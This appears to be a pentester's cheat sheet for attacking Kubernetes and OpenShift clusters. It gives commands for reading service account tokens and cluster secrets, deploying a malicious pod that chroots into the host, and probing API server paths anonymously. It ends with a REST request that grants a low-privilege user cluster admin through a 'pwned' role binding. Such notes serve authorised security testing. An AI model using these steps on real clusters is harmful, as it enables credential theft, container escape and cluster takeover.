 # Containerization / Orchestration




## Kubernetes

- [https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security)



### kubectl

- [https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/](https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/)

Get `kubectl`:

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl
chmod +x ./kubectl
sudo mv ./kubectl /usr/local/bin/kubectl
kubectl version --client
```

Basic authenticated enumeration (the service account token from `/run/secrets/kubernetes.io/serviceaccount/token` can be parsed at [jwt.io](https://jwt.io/)):

```
$ kubectl auth can-i --list
$ kubectl get namespaces
$ kubectl auth can-i --list -n <NAMESPACE>
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pods <POD> -n <NAMESPACE>
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets -n <NAMESPACE>
$ kubectl --token=$(cat token) auth can-i create pods
```

To use kubectl from a remote host:

```
$ ls -la {/run/secrets,/var/run/secrets,/secrets}/kubernetes.io/serviceaccount
$ kubectl auth can-i --list -n kube-system --token `cat token` --server https://192.168.1.11:443 --certificate-authority ca.crt
```

{% hint style="info" %}
- [https://kubernetes.io/docs/tasks/extend-kubernetes/socks5-proxy-access-api/](https://kubernetes.io/docs/tasks/extend-kubernetes/socks5-proxy-access-api/)

Due to proxychains mostly does not work with Go binaries, export `HTTPS_PROXY=socks5://localhost:1080` in order to use kubectl through a SOCKS tunnel.
{% endhint %}



### Malicious Pods

- [https://github.com/BishopFox/badPods](https://github.com/BishopFox/badPods)

Deploy a malicious pod:

```
$ kubectl apply -f evilpod.yml
$ kubectl exec --stdin --tty -it evilpod -- chroot /hostfs bash
```



### Kubernetes API Server Paths

Check these kube-apiserver paths for anonymous access (stolen from [HackTricks](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/pentesting-kubernetes-services#kube-apiserver-anonymous-access)):

```
/api
/api/v1
/apis
/apis
/apis/admissionregistration.k8s.io
/apis/admissionregistration.k8s.io/v1beta1
/apis/apiextensions.k8s.io
/apis/apiextensions.k8s.io/v1beta1
/apis/apiregistration.k8s.io
/apis/apiregistration.k8s.io/v1
/apis/apiregistration.k8s.io/v1beta1
/apis/apps
/apis/apps/v1
/apis/apps/v1beta1
/apis/apps/v1beta2
/apis/authentication.k8s.io
/apis/authentication.k8s.io/v1
/apis/authentication.k8s.io/v1beta1
/apis/authorization.k8s.i
/apis/authorization.k8s.io/v1
/apis/authorization.k8s.io/v1beta1
/apis/autoscaling
/apis/autoscaling/v1
/apis/autoscaling/v2beta1
/apis/batch
/apis/batch/v1
/apis/batch/v1beta1
/apis/certificates.k8s.io
/apis/certificates.k8s.io/v1beta1
```



### Node Post-Exploitation

- [https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/attacking-kubernetes-from-inside-a-pod#node-post-exploitation](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/attacking-kubernetes-from-inside-a-pod#node-post-exploitation)

```
$ kubectl --kubeconfig /etc/kubernetes/kubelet-kubeconfig.conf ...
```



### Pod Escape


#### CVE-2022-0492 (Cgroups)

- [https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)
- [https://github.com/puckiestyle/CVE-2022-0492](https://github.com/puckiestyle/CVE-2022-0492)
- [https://github.com/T1erno/CVE-2022-0492-Docker-Breakout-Checker-and-PoC](https://github.com/T1erno/CVE-2022-0492-Docker-Breakout-Checker-and-PoC)



### Tools


#### kube-hunter

- [https://github.com/aquasecurity/kube-hunter](https://github.com/aquasecurity/kube-hunter)

```
$ kube-hunter --cidr 10.0.1.0/24 --active
```



### Training Labs

- [https://www.bustakube.com/](https://www.bustakube.com/)
- [https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html](https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html)

{% embed url="https://youtu.be/UgHt_Y3vdNg" %}




## Red Hat OpenShift

- [https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md](https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md)

Grant a low-priv user admin's privileges across the cluster [via REST API](https://access.redhat.com/solutions/5492301):

```json
curl -k -X POST 'https://cluster.megacorp.local:8443/apis/rbac.authorization.k8s.io/v1/clusterrolebindings' \
  -H 'Authorization: Bearer <TOKEN>'  \
  -H 'Accept: application/json'       \
  -H 'Content-Type: application/json' \
  -d'
{
  "kind": "ClusterRoleBinding",
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "metadata": {
    "name": "pwned",
    "creationTimestamp": null
  },
  "subjects": [
    {
      "kind": "User",
      "apiGroup": "rbac.authorization.k8s.io",
      "name": "snovvcrash@megacorp.local"
    }
  ],
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "admin"
  }
}'
```
